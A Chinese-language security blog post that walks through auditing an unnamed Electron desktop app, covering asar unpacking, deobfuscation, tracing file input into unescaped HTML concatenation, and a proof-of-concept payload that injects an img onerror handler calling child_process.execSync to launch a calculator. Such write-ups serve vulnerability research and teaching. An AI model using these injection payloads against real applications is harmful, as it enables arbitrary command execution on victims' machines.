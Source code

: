 

# electron 应用漏洞挖掘 - 先知社区

electron 应用漏洞挖掘

- - -

### 前言

electron 是一个流行的桌面应用开发框架，允许开发者使用 web 技术和 nodejs 结合来迅速开发桌面应用。不过由于使用了 js 等，也引入了 xss 漏洞。 
这次用一个简单的 app 实战挖掘，为了避免广告嫌疑，就不提供 app 名字了。

### 解包

electron 真正的应用内容 位于 `resources`目录。 
如果打开后发现直接就是代码目录，就可以跳过这一步了

[![](assets/1698904335-8d7776aa35ab92f4dfe1ff1f2054c996.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226035136-f56d3014-274f-1.png)  
一般会有两个 asar 包，`electron.asar`和应用一般无关，直接看另一个就行了。

asar 只是一个压缩包，解包和重打包的工具可以直接通过`npm`下载。 
下载命令`sudo npm install -g asar` 解压命令 `asar extract app.asar <输出目录>`

### 审计代码

各个目录的目录结构不一定，但都有一个主文件 如 `main.js`. 在这里处理应用的启动

#### 自定义 url 协议

electron 应用可以注册自己的 url 协议 例如`custom://`, 使得可以通过浏览器直接打开应用。这里对 url 协议的处理不当可能导致 rce 等 例子。

注册 url 的代码例子如下

```plain
const protocol = electron.protocol

// handles links `todo2://<something>`
const PROTOCOL_PREFIX = 'todo2'

function createWindow () {
  mainWindow = new BrowserWindow({width: 1000, height: 800})
  // handle url protocol
  protocol.registerHttpProtocol(PROTOCOL_PREFIX, (req, cb) => {
    const fullUrl = formFullTodoUrl(req.url)
    devToolsLog('full url to open ' + fullUrl)
    mainWindow.loadURL(fullUrl)
  })
}
```

由于未在这款应用发现注册自定义 url，只能跳过这处的代码审计了

#### 代码反混淆

如果代码未使用反混淆，可跳过这步。 
这次审计的 app 使用了`javascript obfuscator`, 并不算太难。 
[![](assets/1698904335-499bab96d78d89abbfc44ec9146bc8d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226040622-05e6fc2a-2752-1.png)

使用`https://lelinhtinh.github.io/de4js/` 就能解出来。不过原有的参数名就回不来了，在阅读代码时利用 IDE 的重命名变量能有效提高可读性  
[![](assets/1698904335-11d7756f17fe0b613fdeb8ee2bb06f0a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226041119-b708ee14-2752-1.png)

#### 寻找输入点

为了寻找漏洞，我们需要先寻找输入点。这个时候参考应用自身功能 找到对应的`html`文件代码是最方便的。 
这个应用允许用户打开和编辑一些文件，找到对应的`editpoc.html`. 发现这个文件高达`2000`多行。 
好在 html 文件没有做 js 混淆，可以通过 IDE 的文件结构功能快速浏览，减少了不少工作量  
[![](assets/1698904335-18ffa2149ead9564ee2720967617970c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226041658-80fbc71e-2753-1.png)

花费了几分钟后，找到了从文件获取数据的函数。然后代码将数据传递给了下面三个函数  
[![](assets/1698904335-7529acfedd3aa0cfff9b14f4aebc14fa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226042333-6c032504-2754-1.png)

第一个都是使用`$(#xxx).val()`函数 没太大问题  
[![](assets/1698904335-53aa1301342e87528798bb312d8c7fd1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226042533-b3ab8fcc-2754-1.png)

第二个被混淆了，并且反混淆没成功  
[![](assets/1698904335-1eab11e21bc4d1176a84e328e3de441e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226043150-94c40a20-2755-1.png)

只好自己写个脚本来反混淆了

```plain
# 从上面文件拷贝出来
data= ["xxx"]
# 上面文件的变量名
name = "_$_3fd4"
filename = "bmheditor.js"

with open(filename, "r") as f:
     content = f.read()

for i in range(len(data)):
    content = content.replace(name+f"[{i}]", f"`{data[i]}`")

with open("output.js", "w") as f:
    f.write(content)
```

最后效果[![](assets/1698904335-0231f017c0d4e1164e9bc7f2ab4645ea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226044831-e8db441e-2757-1.png)  
可以发现并没有太明显的拼接 html 痕迹 也是调用`val`

第三个经过一些值传递后的代码  
[![](assets/1698904335-dc302d104be25c43180a5e937feaa412.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226045211-6c30f142-2758-1.png)

可以发现像这样的  
`var $input2 = $("<input type='text' value='"+value+"' name='value' class='form-control' style=' width:20%; display: inline-block;' placeholder='value'>");`  
直接拼接 html, 如果没有过滤将会导致 xss.

而`value`是从`var value = v.value;` 传递来的

在上面的代码也没有过滤

```plain
if (typeof(item.ExpParams) == "undefined") { 
            var ExpParams = [];
        }else{
            var ExpParams = item.ExpParams;
        }
```

查看被传递过来参数`pocJsonInfo`

```plain
var FileName = temp_params2;
            if(from == 'store') {
                var pocJsonInfo = getPocJsonByRubyFileName(FileName, 1);
            } else {
                var pocJsonInfo = getPocJsonByRubyFileName(FileName);
            }
            pocJsonInfo = JSON.parse(pocJsonInfo);
            old_poc_content = pocJsonInfo;

            pocJsonInfo.FileName = FileName;
```

只经过了 json 解析  
而反混淆的`getPocJsonByRubyFileName`函数也没什么过滤  
[![](assets/1698904335-5cf1538f9bf2c2858dc3210258b7bc09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226051233-44c27ace-275b-1.png)

### 利用

上面解析的 json 实际上是这 app 可以编辑的文件里的一部分 [![](assets/1698904335-7212943537b857ce62e23f595c595eef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226051712-eb0aaaf0-275b-1.png)

只需要添加

```plain
"ExpParams": [
          {"name":"test'/><script>alert(1)</script>","type":"input","value":"test"}
      ],
```

这样的即可。

要利用 electron 的 xss 由于 electron 允许使用 nodejs, 所以只需要引入 nodejs 自带的命令执行模块`child_process`即可  
例子  
`require('child_process').execSync('xxxxx')`

这边环境是 Linux 如果要弹个计算器  
实际 exp

```plain
"ExpParams": [
          {"name":"test'/></td></tr><img src=x onerror=\"require('child_process').execSync('gnome-calculator');\">","type":"input","value":"test"}
      ],
```

弹计算器时间  
[![](assets/1698904335-89faf90ef6471efb57480174def87f02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226052222-a3a2fafe-275c-1.png)
